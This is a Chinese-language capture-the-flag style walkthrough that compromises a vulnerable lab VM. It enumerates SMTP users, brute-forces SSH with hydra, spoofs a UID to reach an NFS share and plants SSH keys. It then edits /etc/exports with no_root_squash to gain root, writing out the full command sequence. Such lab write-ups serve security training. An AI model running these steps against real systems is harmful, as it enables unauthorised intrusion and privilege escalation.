

# 一、信息收集

1. 主机发现，如下，kali的IP为172.16.29.130，那么131应该就是靶机IP了
   
   ```shell
   sudo arp-scan -l
   ```
   
   

2. 端口扫描，开放的端口挺多的
   
   

3. 发现有smtp服务，nmap没有扫出漏洞。

# 二、getshell

1. 使用smtp-user-enum枚举用户名
   
   ```shell
   smtp-user-enum -M VRFY -U /usr/share/dirb/wordlists/others/names.txt -t 172.16.29.131
   ```
   
   

2. 如上，获取到用户名Bin、Irc、Mail、Man、Sys，使用hydra爆破一下ssh
   
   ```shell
   hydra -l user -P /usr/share/wordlists/rockyou.txt 172.16.29.131 ssh -t 4
   ```
   
   

3. 如上，成功爆破出ssh口令user/letmein，ssh连接，成功获取到shell
   
   

# 三、权限提升

1. 查看内核版本信息
   
   ```shell
   lsb_release -a
   uname -a
   ```
   
   

2. 如上，该版本存在脏牛提权漏洞，但是系统没有安装gcc，很遗憾没法利用，没办法，只能再找找其他漏洞，前面端口扫描发现有rpc服务，且2049端口存在nfs网络文件系统，尝试输出并远程挂载
   
   ```shell
   showmount -e 172.16.29.131
   mount 172.16.29.131:/home/vulnix /tmp/mount
   ```
   
   
   
   

3. 提示权限不够，到之前获取到的shell中看一下/etc/passwd，发现vulnix用户的uid为2008
   
   

4. 在kali上创建一个相同uid的vulnix用户再次尝试访问挂载
   
   ```shell
   useradd -u 2008 vulnix
   ```
   
   
   
   

5. 成功访问挂载，使用vulnix用户生成一个ssh密钥，并将公钥文件复制到/tmp/vulnix/.ssh/authorized_keys和/home/vulnix/.ssh/authorized_keys中，然后使用密钥ssh连接靶机
   
   ```shell
   ssh-keygen -t id_rsa
   ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa vulnix@172.16.29.131
   ```
   
   

6. 如上图，成功获取到vulnix用户shell，现在我们拥有了sudoers权限，查看有什么可利用的提权程序
   
   ```shell
   sudo -l
   ```
   
   

7. 发现/etc/exports具备root权限，且vulnix用户可以无需密码编辑该文件，查看/etc/exports
   
   

8. 修改改文件，开放root目录，将下面的内容添加到/etc/exports末尾
   
   ```shell
   /root    *(rw,no_root_squash)
   ```

9. 重启靶机，再次查看靶机网络文件共享，如下，成功开放了root目录
   
   ```shell
   showmount -e 172.16.29.131
   ```
   
   

10. 挂载root目录
    
    ```shell
    mount -t nfs 172.16.29.131:/root /tmp/r
    ```

11. 以root身份生成新的密钥，并将公钥文件复制到/tmp/r/.ssh/authorized_keys文件中
    
    

12. 通过密钥文件连接靶机，成功获取到root权限
    
    ```shell
    ssh -o 'PubkeyAcceptedKeyTypes +ssh-rsa' -i id_rsa root@172.16.29.131
    ```
    
    